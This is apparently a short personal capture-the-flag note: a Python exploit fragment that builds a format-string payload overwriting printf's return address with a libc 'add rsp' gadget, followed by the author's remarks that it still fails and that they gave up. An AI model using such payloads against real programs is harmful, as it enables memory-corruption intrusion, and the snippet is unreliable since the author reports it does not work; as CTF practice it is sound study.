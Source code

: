 ```python3
# add rsp, 0x38
add_rsp = libc_base + 0x000000000005e2b5 
print(f"add_rsp at: {hex(add_rsp)}")

# now overwrite printf ret at once
add_rsp1 = int(hex(add_rsp)[10:], 16)
add_rsp2 = int(hex(add_rsp)[6:][:4], 16)
add_rsp3 = int(hex(add_rsp)[4:][:2], 16)
add_rsp4 = int(hex(add_rsp)[2:][:2], 16)

offset = 54
payload = f"%{add_rsp4}c%{offset+3}" + "$hhn"
payload += f"%{(add_rsp3 - add_rsp4)}c%{offset+2}" + "$hhn"
payload += f"%{(add_rsp1 - add_rsp3)}c%{offset}" + "$hn"
payload += f"%{(add_rsp2 - add_rsp1)}c%{offset+1}" + "$hn"

p.sendline(payload)


p.interactive()
```

> should be 12 bits bruteforce... check it again, doesn't return to main after first payload 

> able to return to main now, but looks like there's another problem

> burnt out... will solve similar challenge.

> side note: don't ever fucking take a break when solving a problem 😠




